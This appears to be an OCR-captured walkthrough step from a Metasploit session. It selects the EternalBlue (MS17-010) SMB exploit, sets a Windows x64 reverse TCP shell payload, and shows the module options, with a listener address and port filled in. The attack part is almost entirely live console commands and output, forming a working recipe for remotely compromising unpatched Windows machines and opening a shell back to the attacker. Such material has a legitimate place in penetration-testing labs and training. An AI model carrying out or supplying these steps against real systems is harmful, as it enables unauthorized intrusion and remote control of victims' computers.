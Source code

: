 
Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > 


3. input needed details and run

set payload windows/x64/shell/reverse_tcp

msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                             /wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects
                                             Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target
                                             machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Wind
                                             ows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target mach
                                             ines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server
                                              2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.2.77.171      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(windows/smb/ms17_010_eternalblue) > 

